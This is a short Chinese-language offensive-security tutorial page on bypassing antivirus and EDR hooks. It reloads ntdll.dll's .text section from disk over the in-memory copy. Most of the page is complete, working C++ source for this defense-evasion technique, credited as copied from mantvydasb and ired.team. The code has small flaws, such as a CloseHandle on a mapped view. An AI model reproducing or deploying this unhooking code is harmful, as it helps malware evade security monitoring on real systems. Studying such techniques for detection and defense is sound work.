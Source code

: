 # 重新加载.text节拖钩

## 简介

以前简单介绍过[inline hook](../persistence/detous-inline-hook.md)，杀软会对ntdll进入内核的函数进行挂钩，从而实现检测和阻止，mantvydasb师傅已经对这种技术有详尽的解释，并没有什么特别复杂的操作，只是把ntdll的.text\(代码节\)进行了读取覆盖。

![](../.gitbook/assets/image%20%28191%29.png)

## 流程

1. 读取ntdll进内存
2. 读取覆盖.text节

## 代码

代码是对mantvydasb师傅拙劣的模仿（直接抄233）。

ps:使用MapViewOfFile读取文件会直接在内存里展开。

```text
#include <Windows.h>
#include <psapi.h>

int main()
{
	MODULEINFO mInfo = { 0 };
	HANDLE hProcess = GetCurrentProcess();

	//get address of ntdll in virtual memory 
	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	GetModuleInformation(hProcess, hNtdll, &mInfo, sizeof(mInfo));
	LPVOID lpNtdllbase = (LPVOID)mInfo.lpBaseOfDll;
	
	HANDLE hNtdllfile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE hNtdllMapping = CreateFileMapping(hNtdllfile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID lpNtdllmaping = MapViewOfFile(hNtdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER pDosheader = (PIMAGE_DOS_HEADER)lpNtdllbase;
	PIMAGE_NT_HEADERS pNtheader = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpNtdllbase + pDosheader->e_lfanew);

	for (WORD i = 0; i < pNtheader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionheader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(pNtheader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

		if (!strcmp((char*)pSectionheader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), (LPVOID)((DWORD_PTR)lpNtdllmaping + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, oldProtection, NULL);
		}
	}

	CloseHandle(hProcess);
	CloseHandle(hNtdllfile);
	CloseHandle(lpNtdllmaping);
	FreeLibrary(hNtdll);

	return 0;
}
```

## LINKS

{% embed url="https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++" %}




